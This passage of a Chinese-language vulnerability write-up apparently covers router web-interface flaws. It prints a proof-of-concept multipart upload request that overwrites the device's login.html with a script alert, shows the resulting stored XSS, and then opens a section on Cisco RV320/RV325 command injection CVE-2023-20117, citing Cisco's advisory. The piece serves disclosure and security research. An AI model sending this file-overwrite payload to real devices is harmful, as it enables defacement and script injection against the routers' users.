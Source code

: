 按照上文漏洞细节描述，容易写出如下攻击报文：  
```
------hacked-by-winmt------
Content-Disposition: form-data; name="pathparam"

Portal
------hacked-by-winmt------
Content-Disposition: form-data; name="fileparam"

login.html
------hacked-by-winmt------
Content-Disposition: form-data; name="file"; filename="login.html"
Content-Type: application/octet-stream

<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
------hacked-by-winmt------
```  
  
  
**攻击演示**  
  
  
攻击前，访问**/login.html**页面正常。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBHR0ejwJgicmgvwKlpqsP17GAG5Ac4KicUYmp0Hewqj8hcoZeKA4W9pHw/640?wx_fmt=other&from=appmsg "")  
  
  
按照上述**Poc**，覆写**login.html**为如下内容攻击（尽管显示**Error Input**，攻击仍然是成功进行的）。  
  
```
<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBG2vR8jL526Fs4EjNjSIEdiaKFAmqpia1P2icaXxUicISaocNWR5kSZWQPw/640?wx_fmt=other&from=appmsg "")  
  
  
攻击后，访问**/login.html**页面，可以看到页面已被我们任意篡改，造成了存储型**XSS**攻击。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBOcCuJVOQFrxRhrondojh4txxwVQEgBSiaBIYkYW6nkNJ8qo6vPFVa7A/640?wx_fmt=other&from=appmsg "")  
  
  
  
  
******CVE-2023-20117**  
  
  
**漏洞描述**  
  
  
**Cisco RV320**和**RV325**系列企业级路由器最新固件中存在一个**命令注入**漏洞。通过身份验证的攻击者可通过该漏洞执行任意命令，获取设备的最高控制权。  
  
  
思科安全通告：  
  
https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-sb-rv32x-cmdinject-cKQsZpxL.html  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/RbvWEoCT2fRoAyv3ar6ibNXek6tTk9tMBYtQvvD5RSGuB9vcJ30LHMEAqicXRz4cMPp6pOu8mF6hrcdYy1JKd5Zw/640?wx_fmt=other&from=appmsg "")  
  